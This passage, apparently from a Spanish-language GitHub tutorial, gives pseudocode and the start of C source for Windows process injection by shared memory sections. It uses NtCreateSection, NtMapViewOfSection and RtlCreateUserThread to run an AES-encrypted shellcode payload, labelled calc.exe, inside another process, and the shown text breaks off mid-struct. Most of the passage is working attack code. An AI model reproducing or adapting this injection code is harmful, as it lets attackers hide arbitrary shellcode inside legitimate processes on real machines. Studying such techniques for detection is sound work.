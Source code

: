 ```c
// 1. Se crea una nueva sección en memoria del proceso local
NtCreateSection(&hSection, ..., &payload_len, PAGE_EXECUTE_READWRITE, ..., NULL)

// 2. Se crea una nueva vista para el acceso a la sección de memoria
NtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, ..., &payload_len, ...)

// 3. se escribe el shellcode del proceso en la sección creada mediante la vista
memcpy(pLocalView, payload, payload_len)

// 4. Se crea una vista remota en el proceso externo
NtMapViewOfSection(hSection, RemoteProc, &pRemoteView, ..., &payload_len, ..., PAGE_EXECUTE_READ)

// 5. Se ejecuta el shellcode mediante un hilo desde el proceso externo mediante la vista remota
RtlCreateUserThread(RemoteProc, ..., pRemoteView, 0, &hThread, &cid)

```

## Código fuente

### Inyección en binario EXE

`Nota importante :` En la función injection, si se descomentan las funcionaes printf que escriben por pantalla las posiciones de memoría, sección, vistas, etc. ¡La inyección no funciona!, por lo tanto para el correcto funcionamiento de la inyección entre procesos, mantener comentadas las lineas.

```c
#include <winternl.h>
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

// calc.exe
unsigned char payload[] = { 0x3f, 0x9d, 0x4, 0x52, 0x9c, 0x99, 0x8e, 0x50, 0x35, 0x14, 0xd, 0xa8, 0x8e, 0xf9, 0x74, 0x85, 0x16, 0xc5, 0x6c, 0xf7, 0xb3, 0xd0, 0x3f, 0x72, 0x4e, 0xfa, 0x7d, 0x3b, 0xe4, 0x39, 0xc5, 0xcb, 0x7c, 0xdf, 0xb2, 0xa0, 0xd2, 0xac, 0xca, 0x63, 0x2e, 0x31, 0xb, 0xf4, 0x1b, 0xfb, 0x10, 0xba, 0x2b, 0x7d, 0x47, 0x46, 0xce, 0x79, 0x7c, 0x79, 0x19, 0x4c, 0x9a, 0xca, 0x2f, 0xf3, 0x1e, 0x50, 0x28, 0x63, 0x65, 0x4e, 0x84, 0x8e, 0x43, 0x62, 0xcc, 0xc6, 0xb3, 0x5, 0x8b, 0x12, 0x9e, 0xc8, 0x33, 0x55, 0xe8, 0xe2, 0x5e, 0xe, 0x8d, 0x6f, 0xb3, 0xa8, 0x87, 0x11, 0xcb, 0xc8, 0x68, 0x86, 0x56, 0x94, 0xfd, 0xb2, 0x9a, 0x84, 0x42, 0x6e, 0xd5, 0x38, 0x0, 0x63, 0xd1, 0xbe, 0x80, 0xa, 0xe6, 0xc0, 0xf8, 0x22, 0x63, 0xb6, 0x85, 0x85, 0xe3, 0x8, 0xe3, 0xac, 0x1e, 0xa3, 0x1, 0x39, 0xca, 0x71, 0xd3, 0xd8, 0x8d, 0x83, 0x8f, 0xa4, 0x5b, 0x1b, 0x3e, 0xc6, 0x86, 0x6f, 0xb9, 0xd9, 0x5d, 0x29, 0x4b, 0x16, 0x7d, 0xbf, 0x2e, 0xa2, 0x1d, 0x6f, 0x5e, 0xf6, 0x62, 0x54, 0x22, 0x87, 0x4, 0x8a, 0xd6, 0x1c, 0xff, 0x42, 0xf4, 0x3c, 0xa3, 0xfc, 0x50, 0x7d, 0x1c, 0xa3, 0xc3, 0xe, 0xdc, 0x1a, 0x7d, 0x1f, 0x9c, 0x41, 0xd4, 0xa7, 0x31, 0x5e, 0x7d, 0x37, 0x2f, 0x6f, 0xec, 0x71, 0x9a, 0x24, 0xe6, 0x8e, 0x2c, 0x71, 0x6f, 0x4f, 0x4b, 0x19, 0xf1, 0xbb, 0x66, 0xbd, 0x6d, 0xbd, 0x16, 0x70, 0x8a, 0x8b, 0x29, 0x56, 0xbd, 0xe6, 0x6a, 0x46, 0xf9, 0x60, 0x8a, 0xa1, 0x5b, 0x81, 0x1c, 0x2, 0x53, 0xb3, 0xdf, 0x2b, 0xcc, 0xae, 0x4d, 0x7a, 0xf7, 0x0, 0xa, 0x47, 0xbb, 0x33, 0xdf, 0x1f, 0x32, 0xba, 0x25, 0xf7, 0x58, 0x5, 0x9e, 0xc5, 0xe4, 0x4e, 0xdf, 0x57, 0xd1, 0x69, 0xa9, 0x96, 0x50, 0xbf, 0xde, 0x3d, 0x26, 0xe0, 0x6, 0xe0, 0x46, 0x25, 0x23, 0x40, 0x7e, 0xe2, 0xa2, 0x3c, 0x2a, 0x92, 0xe5, 0x95, 0xff, 0x81, 0x7c, 0x42, 0x61, 0x3, 0xac, 0xdc, 0x91, 0x8f };
unsigned int payload_len = sizeof(payload);
unsigned char key[] = { 0x95, 0x21, 0x49, 0x58, 0x98, 0xe8, 0x50, 0xef, 0x36, 0x29, 0x22, 0x93, 0x9e, 0xce, 0x25, 0xc3 };


// http://undocumented.ntinternals.net/UserMode/Undocumented%20Functions/Executable%20Images/RtlCreateUserThread.html
typedef struct _CLIENT_ID {
```